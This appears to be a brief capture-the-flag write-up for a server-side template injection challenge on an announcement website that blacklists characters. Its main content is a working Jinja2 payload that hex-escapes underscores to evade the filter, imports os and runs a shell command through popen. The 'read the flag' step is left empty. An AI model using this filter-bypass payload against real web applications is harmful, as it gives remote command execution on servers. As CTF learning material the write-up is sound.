



- Description

    I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :)
    I heard templating is a cool and modular way to build web apps! Check out my website here!
- Hints

    `1. Server Side Template Injection`
    `2. Why is blacklisting characters a bad idea to sanitize input?`

    

- Like SSTI1, I can reuse the payload

    ```python3
    {{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
    ```

    

- Read the flag

    